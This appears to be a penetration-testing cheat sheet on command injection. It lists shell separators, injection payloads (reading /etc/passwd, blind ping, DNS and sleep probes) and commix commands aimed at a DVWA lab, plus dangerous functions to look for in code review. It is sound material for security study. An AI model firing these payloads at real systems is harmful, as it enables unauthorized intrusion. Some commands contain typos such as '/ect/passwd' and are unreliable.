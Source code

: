 ```yaml
---
title: Injection, RFI, and LFI
category: Web Application
order: 4
---
```


> **Test for Command Injection**

Prefixs before attack payload (command seperator): | <code> ``, &, &&, ||,  <, >, ;, $() </code>
Test Visable: | <code> ; ls /ect/passwd or /ect/hosts <br>test`pwd` <br> test$(pwd) <br> test; pwd <br> test | pwd <br> test && pwd </code>
Test Blind Ping: | <code> ; ping y.o.ur.ip <br> <br> On your attack system: <br> sudo tcpdump -n host [victimIP] and icmp </code>
Test Blind DNS: | <code> nslookup (you need a public facing system to see nslookup)</code>
Test Blind Sleep: | <code> address=127.0.0.1 && sleep 10 </code>

**Comix**
{% highlight bash %}
commix --level=3 --url="http://website/?arg=INJECT_HERE&arg2=argument"

python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
{% endhighlight %}

> **Command Injection from Code Review**

**Java**

{% highlight java %}
Runtime.exec()
getParameter
getRuntime.exec()
ProcessBuilder.start()
setAttribute putValue getValue
java.net.Socket java.io.fileInputStream java.io.FileReader
{% endhighlight %}

**C/C++**

{% highlight C %}
system
exec
ShellExecute
execlp
{% endhighlight %}

**Python** 

{% highlight python %}
exec
eval
os.system
os.popen
subprocess.popen
subprocess.call
{% endhighlight %}
